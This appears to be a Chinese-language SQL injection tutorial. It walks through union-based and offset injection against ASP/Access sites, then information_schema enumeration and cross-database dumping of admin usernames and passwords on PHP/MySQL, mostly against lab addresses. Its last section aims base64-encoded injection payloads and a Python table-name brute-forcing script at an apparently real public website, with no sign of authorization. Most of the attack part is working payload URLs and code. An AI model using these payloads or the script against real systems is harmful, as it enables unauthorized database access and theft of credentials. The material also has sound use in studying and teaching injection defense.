 ![1645092779872-27e5a43b-dbf0-4002-ad98-2496212ede31.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132120221-554497707.png)

```plain
#知识点：
1、脚本代码与数据库前置知识
2、Access数据库注入-简易&偏移
3、MYSQL数据库注入-简易&权限跨库

#前置知识：
-SQL注入漏洞产生原理分析
-SQL注入漏洞危害利用分析
-脚本代码与数据库操作流程
-数据库名，表名，列名，数据
-数据库类型，数据库用户，用户权限

脚本代码在实现代码与数据库进行数据通讯时（从数据库取出相关数据进行页面显示），将定义的SQL语句进行执行查询数据时。其中的SQL语句能通过参数传递自定义值来实现控制SQL语句，从而执行恶意的SQL语句，可以实现查询其他数据（数据库中的敏感数据，如管理员帐号密码）。这一个过程就可以叫做SQL注入漏洞。
```

- #### ASP+Access-简易注入-字典猜解

```plain
漏洞产生根本条件：可控变量 特定函数
http://192.168.46.160:85/Production/PRODUCT.asp
http://192.168.46.160:85/Production/PRODUCT.asp?id=1513
如果下面的URL地址测试注入判断id有注入，手工测试该如何进行？
http://192.168.46.160:85/Production/PRODUCT.asp?id=1513&page=1
http://192.168.46.160:85/Production/PRODUCT.asp?page=1&id=1513
Production/PRODUCT.asp?id=1513 注入语句&page=1 对
Production/PRODUCT.asp?id=1513&page=1 注入语句 错

SQL注入攻击流程：
1、猜测数据库类型
2、根据类型选择思路

ACCESS 独立存在
数据库名
             表名
                     列名
                            数据

第一步查询表明，第二步查询列名

http://192.168.199.136:85/Production/PRODUCT_DETAIL.asp?id=1513%20order%20by%2022   正确
http://192.168.199.136:85/Production/PRODUCT_DETAIL.asp?id=1513%20order%20by%2023 错误

查询到22个字段，然后进行组合：
http://192.168.199.136:85/Production/PRODUCT_DETAIL.asp?id=1513 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22 from admin
```

![1645092956142-0111dfb6-4e6d-47ee-8dcb-47a7dbb1ef16.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132135072-190382664.png)

```plain
admin只能靠猜测才能得到，
admin字段跟password字段也只能靠猜测才能得到。
http://192.168.199.136:85/Production/PRODUCT_DETAIL.asp?id=1513 UNION SELECT 1,2,admin,4,5,6,7,8,9,10,11,12,13,14,password,16,17,18,19,20,21,22 from admin
```

![1645092994198-858d6a34-14be-42eb-9e0f-47bb81e92e81.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132135161-1740379825.png)

```plain
由于Access数据库特性导致这个SQL注入是需要借助字典去猜解表名和列名的，那么就会出现表名或列名猜解不到，可以自定义社工字典或采用偏移注入！
```

- #### ASP+Access-偏移注入-报错显示

```plain
偏移注入就是解决表名已知，列名未知的情况！
https://www.fujieace.com/penetration-test/access-offset-injection.html
用*号去替换一个字段
http://192.168.199.136:85/Production/PRODUCT_DETAIL.asp?id=1513 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,* from admin
逐渐减少字段，直到正确
当减到16的时候正常：
http://192.168.199.136:85/Production/PRODUCT_DETAIL.asp?id=1513 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,* from admin
那么*号代表6个
http://192.168.199.136:85/Production/PRODUCT_DETAIL.asp?id=1513 UNION SELECT 1,2,3,4,5,6,7,8,9,10,a.id,b.id,* from (admin as a inner join admin as b on a.id = b.id)
这样注入就会随机爆出字段（源代码）
```

![1645093127921-70f82751-7482-4c79-b7e3-a93dce2e9c6c.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132135087-1138893945.png)

```plain
二级偏移：http://192.168.199.136:85/Production/PRODUCT_DETAIL.asp?id=1513 UNION SELECT 1,2,3,4,a.id,b.id,c.id,* from ((admin as a inner join admin as b on a.id = b.id)inner join admin as c on a.id=c.id)
```

- #### PHP+MYSQL-简易注入-存储特性

```plain
MYSQL 统一管理
最高数据库用户=root用户
数据库A=网站A=数据库用户A
         表名
                       列名
                                       数据
数据库B=网站B=数据库用户B
数据库C=网站C=数据库用户C

为了网站和数据库的安全性，MYSQL内置有ROOT最高用户，划分等级，每个用户对应管理一个数据库，这样保证无不关联，从而不会影响到其他数据库的运行。
MYSQL两种思路：
	非ROOT的注入攻击：常规类的猜解
	ROOT用户的注入攻击：文件读写操作，跨库查询注入等
黑盒测试中可以采用user()获取当前用户权限，白盒中看连接用户即可！

MYSQL5.0以上版本：自带的数据库名information_schema
information_schema：存储数据库下的数据库名及表名，列名信息的数据库
information_schema.schematas:记录数据库信息表
information_schema.tables：记录表名信息的表
information_schema.columns：记录列名信息表


获取相关数据：
1、数据库版本-看是否符合information_schema查询-version()-5.5.53
2、数据库用户-看是否符合ROOT型注入攻击-user()-root@localhost
3、当前操作系统-看是否支持大小写或文件路径选择-@@version_compile_os-win
4、数据库名字-为后期猜解指定数据库下的表，列做准备-database()-syguestbook
获取数据库用户和版本：
http://127.0.0.1:8081/web/mysql/news.php?id=2  UNION ALL SELECT user(),version(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17
```

![1645093196806-b2c0a879-c86c-42ba-9ee7-601089b18f3c.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132136059-1825767764.png)

```plain
http://127.0.0.1:8081/web/mysql/news.php?id=2  UNION ALL SELECT database(),@@version_compile_os,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17
```

![1645093219893-7310c880-a310-4b7d-91b8-efd5471ba230.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132135843-777374884.png)

```plain
ROOT类型攻击-猜解数据，文件读写，跨库查询
如果显示一部分，用到group_concat函数就可以显示全部
获取syguestbook数据库下面的表名信息：
UNION SELECT table_name,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from information_schema.tables where table_schema='syguestbook'
```

![1645093256385-442b8086-9903-40da-a34a-8a15757f4770.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132135656-680328974.png)

```plain
获取表名sy_adminuser的列名信息：
UNION SELECT column_name,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from information_schema.columns where table_name='sy_adminuser' and table_schema='syguestbook'
```

![1645093284574-3ed9f6b1-0068-4224-90eb-ab68b818744b.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132135996-1595272495.png)

```plain
获取指定数据：
UNION SELECT username,password,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from sy_adminuser
```

- #### PHP+MYSQL-跨库注入-权限属性

```plain
跨库注入：实现当前网站跨库查询其他数据库对应网站的数据
获取当前mysql下的所有数据库名
UNION SELECT schema_name,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from information_schema.schemata
```

![1645093347250-23c9ab38-31c3-48fb-b8c0-710821e6de05.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132135781-1212088935.png)

```plain
获取数据库名xhcms下的表名信息
UNION SELECT table_name,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from information_schema.tables where table_schema='xhcms'
获取数据库名xhcms下的表manage下的列名信息：
UNION SELECT column_name,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from information_schema.columns where table_name='manage' and table_schema='xhcms'
获取指定数据：
UNION SELECT user,password,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17 from xhcms.manage
```

![1645093381250-e8e6bdb9-1681-48aa-9ccd-ecc6a05db0f4.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132135562-1375154222.png)

```plain
http://www.comresearch.org/researchDetails.php?id=MD=
爆数字：
http://www.comresearch.org/researchDetails.php?id=MSB1bmlvbiBzZWxlY3QgMSwyLDMsNCw1LDYsNw==

http://www.comresearch.org/researchDetails.php?id=MSB1bmlvbiBzZWxlY3QgMSxkYXRhYmFzZSgpLDMsdmVyc2lvbigpLHVzZXIoKSw2LDc=
```

![1645093422409-2ae1007f-5eb5-488d-a09d-b28daec98416.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132135583-176201651.png)

```plain
版本不对，这个时候只能暴力破解
脚本代码：
import requests
import base64
url='http://www.comresearch.org/researchDetails.php?id='
sqlin='1 union select 1,2,3,4,5,6,7 from '
for lieming in open('common-tables.txt'):
    lieming=lieming.strip()
    s=sqlin+lieming
    ss=base64.b64encode(s.encode('utf-8'))
    #print(lieming)
    sqlins=url+ss.decode('utf-8')
    #print(sqlins)
    sss=requests.get(sqlins)
    if 'Warning' in sss.text:
        print('失败')
    else:
        print('成功')
        print(sqlins)
```
